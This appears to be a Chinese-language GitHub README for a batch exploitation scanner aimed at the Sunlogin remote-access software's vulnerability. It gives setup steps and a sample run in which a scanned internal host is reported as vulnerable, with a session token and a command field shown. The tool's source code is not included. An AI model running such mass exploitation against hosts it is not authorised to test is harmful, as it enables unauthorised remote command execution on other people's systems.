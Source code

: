 # sunlogin_exp_for_tututu
# 基于NMAP的向日葵漏洞自动化批量扫描工具

## 1. 需要您安装NMAP，https://nmap.org/download。

## 2. 需要更新安装Python模块
    pip install requests
    pip install python-nmap
    
## 3. 在test.txt中放入地址段(仅支持IP和地址段哦)

## 4. 执行Python sunlogin_exp_for_tututu.py

执行情况:
```
PS D:\> python .\sunlogin_exp_for_tututu.py
2022-07-10 10:52:21-172.17.8.0/23
[+]host:http://172.17.8.99:61127 cid:hHdXNeZi8NrH5cOND9JVsawf5lysf97y cmd:"vulnerable!" response:vulnerable! 
```

